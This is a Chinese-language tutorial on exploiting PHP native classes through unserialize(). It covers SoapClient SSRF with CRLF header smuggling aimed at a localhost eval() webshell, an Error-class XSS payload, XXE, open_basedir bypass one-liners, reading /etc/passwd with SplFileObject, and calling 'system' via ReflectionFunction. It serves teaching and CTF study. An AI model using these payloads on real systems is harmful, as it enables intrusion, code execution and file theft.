




# 前置知识
> 当代码中存在反序列化点，但是却找不到可利用的类时，可以考虑使用`PHP`中的一些原生类，但是需要注意，由于`PHP`中使用了`zend_class_unserialize_deny`来禁止一些类的反序列化，因此有些类不一定能够进行反序列化

> 一般见到如下代码语句，在代码中找不到利用方式时可以考虑使用`PHP`原生类来进行构造

```php
echo new $class($func);
```

> 代码遍历一下PHP的内置类，也可以参考一下[`PHP标准库(SPL)`](https://www.php.net/manual/zh/book.spl.php)

```php
<?php
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, array(
            '__destruct',
            '__toString',
            '__wakeup',
            '__call',
            '__callStatic',
            '__get',
            '__set',
            '__isset',
            '__unset',
            '__invoke',
            '__set_state'
        ))) {
            print $class . '::' . $method . "\n";
        }
    }
}
?>
```
```php
Exception::__wakeup
Exception::__toString
ErrorException::__wakeup
ErrorException::__toString
Error::__wakeup
Error::__toString
CompileError::__wakeup
CompileError::__toString
ParseError::__wakeup
ParseError::__toString
TypeError::__wakeup
TypeError::__toString
ArgumentCountError::__wakeup
ArgumentCountError::__toString
ArithmeticError::__wakeup
ArithmeticError::__toString
DivisionByZeroError::__wakeup
DivisionByZeroError::__toString
Generator::__wakeup
ClosedGeneratorException::__wakeup
ClosedGeneratorException::__toString
DateTime::__wakeup
DateTime::__set_state
DateTimeImmutable::__wakeup
DateTimeImmutable::__set_state
DateTimeZone::__wakeup
DateTimeZone::__set_state
DateInterval::__wakeup
DateInterval::__set_state
DatePeriod::__wakeup
DatePeriod::__set_state
JsonException::__wakeup
JsonException::__toString
LogicException::__wakeup
LogicException::__toString
BadFunctionCallException::__wakeup
BadFunctionCallException::__toString
BadMethodCallException::__wakeup
BadMethodCallException::__toString
DomainException::__wakeup
DomainException::__toString
InvalidArgumentException::__wakeup
InvalidArgumentException::__toString
LengthException::__wakeup
LengthException::__toString
OutOfRangeException::__wakeup
OutOfRangeException::__toString
RuntimeException::__wakeup
RuntimeException::__toString
OutOfBoundsException::__wakeup
OutOfBoundsException::__toString
OverflowException::__wakeup
OverflowException::__toString
RangeException::__wakeup
RangeException::__toString
UnderflowException::__wakeup
UnderflowException::__toString
UnexpectedValueException::__wakeup
UnexpectedValueException::__toString
CachingIterator::__toString
RecursiveCachingIterator::__toString
SplFileInfo::__toString
DirectoryIterator::__toString
FilesystemIterator::__toString
RecursiveDirectoryIterator::__toString
GlobIterator::__toString
SplFileObject::__toString
SplTempFileObject::__toString
SplFixedArray::__wakeup
ReflectionException::__wakeup
ReflectionException::__toString
ReflectionFunctionAbstract::__toString
ReflectionFunction::__toString
ReflectionParameter::__toString
ReflectionType::__toString
ReflectionNamedType::__toString
ReflectionMethod::__toString
ReflectionClass::__toString
ReflectionObject::__toString
ReflectionProperty::__toString
ReflectionClassConstant::__toString
ReflectionExtension::__toString
ReflectionZendExtension::__toString
AssertionError::__wakeup
AssertionError::__toString
DOMException::__wakeup
DOMException::__toString
PDOException::__wakeup
PDOException::__toString
PDO::__wakeup
PDOStatement::__wakeup
SimpleXMLElement::__toString
SimpleXMLIterator::__toString
MongoDB\BSON\Binary::__set_state
MongoDB\BSON\Binary::__toString
MongoDB\BSON\DBPointer::__toString
MongoDB\BSON\Decimal128::__set_state
MongoDB\BSON\Decimal128::__toString
MongoDB\BSON\Int64::__toString
MongoDB\BSON\Javascript::__set_state
MongoDB\BSON\Javascript::__toString
MongoDB\BSON\MaxKey::__set_state
MongoDB\BSON\MinKey::__set_state
MongoDB\BSON\ObjectId::__set_state
MongoDB\BSON\ObjectId::__toString
MongoDB\BSON\Regex::__set_state
MongoDB\BSON\Regex::__toString
MongoDB\BSON\Symbol::__toString
MongoDB\BSON\Timestamp::__set_state
MongoDB\BSON\Timestamp::__toString
MongoDB\BSON\Undefined::__toString
MongoDB\BSON\UTCDateTime::__set_state
MongoDB\BSON\UTCDateTime::__toString
MongoDB\Driver\BulkWrite::__wakeup
MongoDB\Driver\ClientEncryption::__wakeup
MongoDB\Driver\Command::__wakeup
MongoDB\Driver\Cursor::__wakeup
MongoDB\Driver\CursorId::__toString
MongoDB\Driver\CursorId::__wakeup
MongoDB\Driver\Manager::__wakeup
MongoDB\Driver\Query::__wakeup
MongoDB\Driver\ReadConcern::__set_state
MongoDB\Driver\ReadPreference::__set_state
MongoDB\Driver\Server::__wakeup
MongoDB\Driver\Session::__wakeup
MongoDB\Driver\WriteConcern::__set_state
MongoDB\Driver\WriteConcernError::__wakeup
MongoDB\Driver\WriteError::__wakeup
MongoDB\Driver\WriteResult::__wakeup
MongoDB\Driver\Exception\RuntimeException::__wakeup
MongoDB\Driver\Exception\RuntimeException::__toString
MongoDB\Driver\Exception\ServerException::__wakeup
MongoDB\Driver\Exception\ServerException::__toString
MongoDB\Driver\Exception\ConnectionException::__wakeup
MongoDB\Driver\Exception\ConnectionException::__toString
MongoDB\Driver\Exception\WriteException::__wakeup
MongoDB\Driver\Exception\WriteException::__toString
MongoDB\Driver\Exception\AuthenticationException::__wakeup
MongoDB\Driver\Exception\AuthenticationException::__toString
MongoDB\Driver\Exception\BulkWriteException::__wakeup
MongoDB\Driver\Exception\BulkWriteException::__toString
MongoDB\Driver\Exception\CommandException::__wakeup
MongoDB\Driver\Exception\CommandException::__toString
MongoDB\Driver\Exception\ConnectionTimeoutException::__wakeup
MongoDB\Driver\Exception\ConnectionTimeoutException::__toString
MongoDB\Driver\Exception\EncryptionException::__wakeup
MongoDB\Driver\Exception\EncryptionException::__toString
MongoDB\Driver\Exception\ExecutionTimeoutException::__wakeup
MongoDB\Driver\Exception\ExecutionTimeoutException::__toString
MongoDB\Driver\Exception\InvalidArgumentException::__wakeup
MongoDB\Driver\Exception\InvalidArgumentException::__toString
MongoDB\Driver\Exception\LogicException::__wakeup
MongoDB\Driver\Exception\LogicException::__toString
MongoDB\Driver\Exception\SSLConnectionException::__wakeup
MongoDB\Driver\Exception\SSLConnectionException::__toString
MongoDB\Driver\Exception\UnexpectedValueException::__wakeup
MongoDB\Driver\Exception\UnexpectedValueException::__toString
MongoDB\Driver\Monitoring\CommandFailedEvent::__wakeup
MongoDB\Driver\Monitoring\CommandStartedEvent::__wakeup
MongoDB\Driver\Monitoring\CommandSucceededEvent::__wakeup
CURLFile::__wakeup
mysqli_sql_exception::__wakeup
mysqli_sql_exception::__toString
PharException::__wakeup
PharException::__toString
Phar::__destruct
Phar::__toString
PharData::__destruct
PharData::__toString
PharFileInfo::__destruct
PharFileInfo::__toString
```

# 常见 PHP 原生类利用分析
## SoapClient 类


> `SoapClient::__call`：由于当`__call`方法被触发后，它可以发送`HTTP`和`HTTPS`请求，因此可以进行`SSRF`利用

```php
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])

[1] 第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式
[2] 第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，而uri是SOAP服务的目标命名空间，第二个参数允许设置user_agent选项来设置请求的user-agent头
```
```php
SoapClient::__call ( string $name , array $args ) : mixed
```

> 利用前提
```
[1] 需要有soap扩展，且需要手动开启
[2] 需要调用一个不存在的方法触发其__call()函数
[3] 仅限于http/https协议
```

> 在`PHP-manual`种对`SOAP`介绍是：`The SOAP extension can be used to write SOAP Servers and Clients. It supports subsets of » SOAP 1.1, » SOAP 1.2 and » WSDL 1.1 specifications.`，其实简单地说，`SOAP`就是一种简单的基于`XML`的协议，它使应用程序通过`HTTP`来交换信息

> 例如如下代码使用腾讯开放的查询QQ号是否在线的普通的`soap`调用

```php
<?php
$url = "http://www.webxml.com.cn/webservices/qqOnlineWebService.asmx?wsdl";
$client = new SoapClient($url);

$params = array(
    "qqCode"=> "1448404788"
);
$result = $client->qqCheckOnline($params);
print_r($result);
?>

stdClass Object
(
    [qqCheckOnlineResult] => Y
)
```
### 使用 SoapClient 类进行 SSRF

> 测试代码：
```php
<?php
ini_set('soap.wsdl_cache_enabled',0);
ini_set('soap.wsdl_cache_ttl',0);
$url = 'http://185.194.148.106:8888/';
$demo = new SoapClient(null,array('location'=>$url, 'uri'=>$url));
$test = unserialize(serialize($demo));
$test->H3rmesk1t();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```


> 正常情况下的`SoapClient`类调用一个不存在的函数会去调用`__call()`方法，发出请求，`SoapClient`发出的请求包的`user_agent`是完全可控的，结合`CRLF注入`可以构造一个完全可控的`POST请求`，因为`POST请求`最关键的`Content-Length`和`Content-Type`都在`user_agent`之下；如果是`GET请求`就简单得多，只需要构造好`location`就可以，需要注意的是`SoapClient`只会发出请求而不会收到响应

> 测试代码：
```php
[+] shell.php
<?php
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {
        @eval($_REQUEST['cmd']);
    }
?>

[+] index.php
<?php
    $demo = unserialize($_GET['h3rmesk1t']);
    $demo->d1no();
?>

[+] exp.php
<?php
    $target = 'http://127.0.0.1/Demo/shell.php';
    $post_string = 'cmd=file_put_contents("C:/Tools/phpstudy_pro/WWW/Demo/info.php", "<?php phpinfo();?>");';
    $headers = array(
        'X-Forwarded-For: 127.0.0.1',
        'Cookie: aaaa=ssss'
    );
    $user_agent = 'aaa^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string;
    $options = array(
        'location' => $target,
        'user_agent'=> $user_agent,
        'uri'=> "aaab"
    );

    $b = new SoapClient(null, $options);

    $aaa = serialize($b);
    $aaa = str_replace('^^', '%0d%0a', $aaa);
    $aaa = str_replace('&', '%26', $aaa);
    echo $aaa;
?>
```

## Error/Exception 内置类
### 使用 Error/Exception 内置类进行 XSS
> `Error`类是`PHP`的一个内置类，用于自动自定义一个`Error`，在`php7`的环境下可能会造成一个`xss`漏洞，因为它内置有一个`__toString()`方法，常用于PHP 反序列化中
> `Exception`类和`Error`类类似

> 使用情形

```php
Error 内置类:
    适用于php7版本
    开启报错的情况下

Exception 内置类:
    适用于php5、7版本
    开启报错的情况下
```

> 测试代码如下：

```php
<?php
    $demo = unserialize($_GET['cmd']);
    echo $demo;
?>
```
> `POC`代码

```php
<?php
$demo = new Error("<script>alert('h3rmesk1t')</script>");
echo urlencode(serialize($demo));
?>
```


### 使用 Error/Exception 内置类绕过哈希比较
> `Error`和`Exception`这两个`PHP`内置类，不仅限于`XSS`，还可以通过巧妙的构造绕过`md5()`函数和`sha1()`函数的比较

#### Error 类
> `Error`是所有`PHP`内部错误类的基类，该类是在`PHP7.0.0`中开始引入的


```php
类属性：
    message：错误消息内容
    code：错误代码
    file：抛出错误的文件名
    line：抛出错误在该文件中的行数

类方法：
    Error::__construct — 初始化 error 对象
    Error::getMessage — 获取错误信息
    Error::getPrevious — 返回先前的 Throwable
    Error::getCode — 获取错误代码
    Error::getFile — 获取错误发生时的文件
    Error::getLine — 获取错误发生时的行号
    Error::getTrace — 获取调用栈（stack trace）
    Error::getTraceAsString — 获取字符串形式的调用栈（stack trace）
    Error::__toString — error 的字符串表达
    Error::__clone — 克隆 error
```
#### Exception 类
> `Exception`是所有异常的基类，该类是在`PHP5.0.0`中开始引入的


```php
类属性：
    message：异常消息内容
    code：异常代码
    file：抛出异常的文件名
    line：抛出异常在该文件中的行号
类方法：
    Exception::__construct — 异常构造函数
    Exception::getMessage — 获取异常消息内容
    Exception::getPrevious — 返回异常链中的前一个异常
    Exception::getCode — 获取异常代码
    Exception::getFile — 创建异常时的程序文件名称
    Exception::getLine — 获取创建的异常所在文件中的行号
    Exception::getTrace — 获取异常追踪信息
    Exception::getTraceAsString — 获取字符串类型的异常追踪信息
    Exception::__toString — 将异常对象转换为字符串
    Exception::__clone — 异常克隆
```
> 可以看到在`Error`和`Exception`这两个`PHP原生类`中只有`__toString`方法，这个方法用于将异常或错误对象转换为字符串

> 以`Error`为例，看看当触发`__toString()`方法时会发生什么



> 发现这将会以字符串的形式输出当前报错，并且包含当前的错误信息`("h3rmesk1t")`以及当前报错的行号`("2")`，而传入`Error("payload",1)`中的错误代码`"1"`则没有输出出来

> 再来看看另外一种情况


> 可以发现`$demo1`和`$demo2`这两个错误对象本身是不同的，但是`__toString()`方法返回的结果是相同的，这里之所以需要在同一行是因为`__toString()`返回的数据包含当前行号

> `Exception`类与`Error`类的使用和结果完全一样，只不过`Exception`类适用于`PHP5`和`PHP7`，而`Error`类只适用于`PHP7`

## SimpleXMLElement 类
> `SimpleXMLElement`类中的构造方法`SimpleXMLElement::__construct`的定义如下


### 使用 SimpleXMLElement 类进行 XXE
> 可以看到通过设置第三个参数`data_is_url`为`true`，就可以实现远程`xml文件`的载入，第二个参数的常量值设置为`2`即可，第一个参数`data`就是自己设置的`payload`的`url`地址，即用于引入的外部实体的`url`，这样的话可以控制目标调用的类的时候，便可以通过`SimpleXMLElement`这个内置类来构造`XXE`

## ZipArchive 类
> `ZipArchive`类是`PHP`的一个原生类，它是在`PHP5.20`之后引入的，`ZipArchive`类可以对文件进行压缩与解压缩处理

```php
class ZipArchive implements Countable {
/* Properties */
int $lastId;
int $status;
int $statusSys;
int $numFiles;
string $filename;
string $comment;
/* Methods */
public addEmptyDir(string $dirname, int $flags = 0): bool
public addFile(
    string $filepath,
    string $entryname = "",
    int $start = 0,
    int $length = 0,
    int $flags = ZipArchive::FL_OVERWRITE
): bool
public addFromString(string $name, string $content, int $flags = ZipArchive::FL_OVERWRITE): bool
public addGlob(string $pattern, int $flags = 0, array $options = []): array|false
public addPattern(string $pattern, string $path = ".", array $options = []): array|false
public clearError(): void
public close(): bool
public count(): int
public deleteIndex(int $index): bool
public deleteName(string $name): bool
public extractTo(string $pathto, array|string|null $files = null): bool
public getArchiveComment(int $flags = 0): string|false
public getCommentIndex(int $index, int $flags = 0): string|false
public getCommentName(string $name, int $flags = 0): string|false
public GetExternalAttributesIndex(
    int $index,
    int &$opsys,
    int &$attr,
    int $flags = ?
): bool
public getExternalAttributesName(
    string $name,
    int &$opsys,
    int &$attr,
    int $flags = 0
): bool
public getFromIndex(int $index, int $len = 0, int $flags = 0): string|false
public getFromName(string $name, int $len = 0, int $flags = 0): string|false
public getNameIndex(int $index, int $flags = 0): string|false
public getStatusString(): string
public getStream(string $name): resource|false
public getStreamIndex(int $index, int $flags = 0): resource|false
public getStreamName(string $name, int $flags = 0): resource|false
public static isCompressionMethodSupported(int $method, bool $enc = true): bool
public static isEncryptionMethodSupported(int $method, bool $enc = true): bool
public locateName(string $name, int $flags = 0): int|false
public open(string $filename, int $flags = 0): bool|int
public registerCancelCallback(callable $callback): bool
public registerProgressCallback(float $rate, callable $callback): bool
public renameIndex(int $index, string $new_name): bool
public renameName(string $name, string $new_name): bool
public replaceFile(
    string $filepath,
    string $index,
    int $start = 0,
    int $length = 0,
    int $flags = 0
): bool
public setArchiveComment(string $comment): bool
public setCommentIndex(int $index, string $comment): bool
public setCommentName(string $name, string $comment): bool
public setCompressionIndex(int $index, int $method, int $compflags = 0): bool
public setCompressionName(string $name, int $method, int $compflags = 0): bool
public setEncryptionIndex(int $index, int $method, ?string $password = null): bool
public setEncryptionName(string $name, int $method, ?string $password = null): bool
public setExternalAttributesIndex(
    int $index,
    int $opsys,
    int $attr,
    int $flags = 0
): bool
public setExternalAttributesName(
    string $name,
    int $opsys,
    int $attr,
    int $flags = 0
): bool
public setMtimeIndex(int $index, int $timestamp, int $flags = 0): bool
public setMtimeName(string $name, int $timestamp, int $flags = 0): bool
public setPassword(string $password): bool
public statIndex(int $index, int $flags = 0): array|false
public statName(string $name, int $flags = 0): array|false
public unchangeAll(): bool
public unchangeArchive(): bool
public unchangeIndex(int $index): bool
public unchangeName(string $name): bool
}
```
> 常见的类方法

```php
ZipArchive::addEmptyDir：添加一个新的文件目录
ZipArchive::addFile：将文件添加到指定zip压缩包中
ZipArchive::addFromString：添加新的文件同时将内容添加进去
ZipArchive::close：关闭ziparchive
ZipArchive::extractTo：将压缩包解压
ZipArchive::open：打开一个zip压缩包
ZipArchive::deleteIndex：删除压缩包中的某一个文件，如：deleteIndex(0)代表删除第一个文件
ZipArchive::deleteName：删除压缩包中的某一个文件名称，同时也将文件删除
```
> 重点看看`ZipArchive::open`方法，该方法用来打开一个新的或现有的`zip存档`以进行读取、写入或修改

```php
ZipArchive::open(string $filename, int $flags=0)
```
```php
filename：要打开的ZIP存档的文件名。
flags：用于打开档案的模式。有以下几种模式：
    ZipArchive::OVERWRITE：总是以一个新的压缩包开始，此模式下如果已经存在则会被覆盖或删除
    ZipArchive::CREATE：如果不存在则创建一个zip压缩包
    ZipArchive::RDONLY：只读模式打开压缩包
    ZipArchive::EXCL：如果压缩包已经存在，则出错
    ZipArchive::CHECKCONS：对压缩包执行额外的一致性检查，如果失败则显示错误
```
> 如果设置`flags`参数的值为`ZipArchive::OVERWRITE`的话，可以把指定文件删除，这里跟进方法可以看到`const OVERWRITE = 8`，也就是将`OVERWRITE`定义为了常量`8`，在调用时也可以直接将`flags`赋值为`8`

## PHP 原生文件操作类
### 可遍历目录类
#### DirectoryIterator 类
> `DirectoryIterator`类提供了一个用于查看文件系统目录内容的简单接口，该类的构造方法将会创建一个指定目录的迭代器


```php
<?php
$dir = new DirectoryIterator("/");
echo $dir;
?>
```


> 这里可以配合`glob://协议(查找匹配的文件路径模式)`来寻找想要的文件路径


> 这里还可以对`$dir`对象进行遍历从而来输出全部的文件名

```php
<?php
    highlight_file(__FILE__);
    $dir = new DirectoryIterator("/Tools/phpstudy_pro/WWW/Demo");
    foreach($dir as $file){
        echo($file.PHP_EOL);
    }
?>
```


#### FilesystemIterator 类
> `FilesystemIterator`类与`DirectoryIterator`类相同，提供了一个用于查看文件系统目录内容的简单接口，该类的构造方法将会创建一个指定目录的迭代器，该类的使用方法与`DirectoryIterator`类也是基本相同的

```php
class FilesystemIterator extends DirectoryIterator implements SeekableIterator {
/* Constants */
const int CURRENT_AS_PATHNAME = 32;
const int CURRENT_AS_FILEINFO = 0;
const int CURRENT_AS_SELF = 16;
const int CURRENT_MODE_MASK = 240;
const int KEY_AS_PATHNAME = 0;
const int KEY_AS_FILENAME = 256;
const int FOLLOW_SYMLINKS = 512;
const int KEY_MODE_MASK = 3840;
const int NEW_CURRENT_AND_KEY = 256;
const int SKIP_DOTS = 4096;
const int UNIX_PATHS = 8192;
/* Methods */
public __construct(string $directory, int $flags = FilesystemIterator::KEY_AS_PATHNAME | FilesystemIterator::CURRENT_AS_FILEINFO | FilesystemIterator::SKIP_DOTS)
public current(): string|SplFileInfo|FilesystemIterator
public getFlags(): int
public key(): string
public next(): void
public rewind(): void
public setFlags(int $flags): void
/* Inherited methods */
public DirectoryIterator::current(): DirectoryIterator
public DirectoryIterator::getATime(): int
public DirectoryIterator::getBasename(string $suffix = ""): string
public DirectoryIterator::getCTime(): int
public DirectoryIterator::getExtension(): string
public DirectoryIterator::getFilename(): string
public DirectoryIterator::getGroup(): int
public DirectoryIterator::getInode(): int
public DirectoryIterator::getMTime(): int
public DirectoryIterator::getOwner(): int
public DirectoryIterator::getPath(): string
public DirectoryIterator::getPathname(): string
public DirectoryIterator::getPerms(): int
public DirectoryIterator::getSize(): int
public DirectoryIterator::getType(): string
public DirectoryIterator::isDir(): bool
public DirectoryIterator::isDot(): bool
public DirectoryIterator::isExecutable(): bool
public DirectoryIterator::isFile(): bool
public DirectoryIterator::isLink(): bool
public DirectoryIterator::isReadable(): bool
public DirectoryIterator::isWritable(): bool
public DirectoryIterator::key(): int|false
public DirectoryIterator::next(): void
public DirectoryIterator::rewind(): void
public DirectoryIterator::seek(int $offset): void
public DirectoryIterator::__toString(): string
public DirectoryIterator::valid(): bool
}
```


#### GlobIterator 类
> 与前两个类的作用相似，`GlobIterator`类也可以遍历一个文件目录，使用方法与前两个类也基本相似，但与上面略不同的是其行为类似于`glob()`，可以通过模式匹配来寻找文件路径




#### trick:使用可遍历目录类绕过 open_basedir
> 使用 DirectoryIterator 类

```php
<?php
$dir = $_GET['whoami'];
$a = new DirectoryIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>

# payload一句话的形式:
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

> 使用 FilesystemIterator 类

```php
<?php
$dir = $_GET['whoami'];
$a = new FilesystemIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>

# payload一句话的形式:
$a = new FilesystemIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

> 使用 GlobIterator 类

```php
<?php
$dir = $_GET['whoami'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>

# payload一句话的形式:
$a = new FilesystemIterator("/*");foreach($a as $f){echo($f->__toString().'<br>');}
```

### 可读取文件类
> 目前发现的可读取文件类`SplFileObject`，`SplFileInfo`类为单个文件的信息提供了一个高级的面向对象的接口，可以用于对文件内容的遍历、查找、操作等

```php
class SplFileObject extends SplFileInfo implements RecursiveIterator, SeekableIterator {
/* Constants */
const int DROP_NEW_LINE = 1;
const int READ_AHEAD = 2;
const int SKIP_EMPTY = 4;
const int READ_CSV = 8;
/* Methods */
public __construct(
    string $filename,
    string $mode = "r",
    bool $useIncludePath = false,
    ?resource $context = null
)
public current(): string|array|false
public eof(): bool
public fflush(): bool
public fgetc(): string|false
public fgetcsv(string $separator = ",", string $enclosure = "\"", string $escape = "\\"): array|false
public fgets(): string
public fgetss(string $allowable_tags = ?): string
public flock(int $operation, int &$wouldBlock = null): bool
public fpassthru(): int
public fputcsv(
    array $fields,
    string $separator = ",",
    string $enclosure = "\"",
    string $escape = "\\",
    string $eol = "\n"
): int|false
public fread(int $length): string|false
public fscanf(string $format, mixed &...$vars): array|int|null
public fseek(int $offset, int $whence = SEEK_SET): int
public fstat(): array
public ftell(): int|false
public ftruncate(int $size): bool
public fwrite(string $data, int $length = 0): int|false
public getChildren(): ?RecursiveIterator
public getCsvControl(): array
public getFlags(): int
public getMaxLineLen(): int
public hasChildren(): bool
public key(): int
public next(): void
public rewind(): void
public seek(int $line): void
public setCsvControl(string $separator = ",", string $enclosure = "\"", string $escape = "\\"): void
public setFlags(int $flags): void
public setMaxLineLen(int $maxLength): void
public valid(): bool
/* Inherited methods */
public SplFileInfo::getATime(): int|false
public SplFileInfo::getBasename(string $suffix = ""): string
public SplFileInfo::getCTime(): int|false
public SplFileInfo::getExtension(): string
public SplFileInfo::getFileInfo(?string $class = null): SplFileInfo
public SplFileInfo::getFilename(): string
public SplFileInfo::getGroup(): int|false
public SplFileInfo::getInode(): int|false
public SplFileInfo::getLinkTarget(): string|false
public SplFileInfo::getMTime(): int|false
public SplFileInfo::getOwner(): int|false
public SplFileInfo::getPath(): string
public SplFileInfo::getPathInfo(?string $class = null): ?SplFileInfo
public SplFileInfo::getPathname(): string
public SplFileInfo::getPerms(): int|false
public SplFileInfo::getRealPath(): string|false
public SplFileInfo::getSize(): int|false
public SplFileInfo::getType(): string|false
public SplFileInfo::isDir(): bool
public SplFileInfo::isExecutable(): bool
public SplFileInfo::isFile(): bool
public SplFileInfo::isLink(): bool
public SplFileInfo::isReadable(): bool
public SplFileInfo::isWritable(): bool
public SplFileInfo::openFile(string $mode = "r", bool $useIncludePath = false, ?resource $context = null): SplFileObject
public SplFileInfo::setFileClass(string $class = SplFileObject::class): void
public SplFileInfo::setInfoClass(string $class = SplFileInfo::class): void
public SplFileInfo::__toString(): string
}
```

> 测试代码

```php
<?php
highlight_file(__FILE__);
$context = new SplFileObject('/Tools/phpstudy_pro/WWW/Demo/flag.txt');
echo $context;
?>

<?php
$context = new SplFileObject('/etc/passwd');
foreach($context as $f){
    echo($f);
}
?>
```


## 使用 ReflectionMethod 类获取类方法的相关信息
> `ReflectionMethod`继承`ReflectionFunctionAbstract`这个抽象类，这个抽象类实现`Reflector`接口

```php
abstract class ReflectionFunctionAbstract implements Reflector {
/* Properties */
public $name;
/* Methods */
final private __clone(): void
public getAttributes(?string $name = null, int $flags = 0): array
public getClosureScopeClass(): ?ReflectionClass
public getClosureThis(): ?object
public getDocComment(): string|false
public getEndLine(): int|false
public getExtension(): ?ReflectionExtension
public getExtensionName(): string|false
public getFileName(): string|false
public getName(): string
public getNamespaceName(): string
public getNumberOfParameters(): int
public getNumberOfRequiredParameters(): int
public getParameters(): array
public getReturnType(): ?ReflectionType
public getShortName(): string
public getStartLine(): int|false
public getStaticVariables(): array
public hasReturnType(): bool
public inNamespace(): bool
public isClosure(): bool
public isDeprecated(): bool
public isGenerator(): bool
public isInternal(): bool
public isUserDefined(): bool
public isVariadic(): bool
public returnsReference(): bool
abstract public __toString(): void
}
```

> `ReflectionMethod`类报告了一个方法的有关信息，它可以在`PHP运行状态`中扩展分析`PHP程序`，导出或提取出关于类、方法、属性、参数等的详细信息，包括注释，这种动态获取的信息以及动态调用对象的方法的功能称为`反射API`，`ReflectionMethod`类中有很多继承方法可以使用，比如这个`getDocComment()`方法，可以用它来获取类中各个函数注释内容

```php
<?php
highlight_file(__FILE__);
class Demo {
    /**
     * H3rmesk1t
     * @return int
     */
    protected function h3() {
        return 1;
    }
}

$ref = new ReflectionMethod('Demo', 'h3');
var_dump($ref->getDocComment());
```


> 同时这里还有一个`ReflectionFunction`，例如`[new ReflectionFunction('system'),invokeArgs](array('aaa.txt'=>'dir'));`可执行函数调用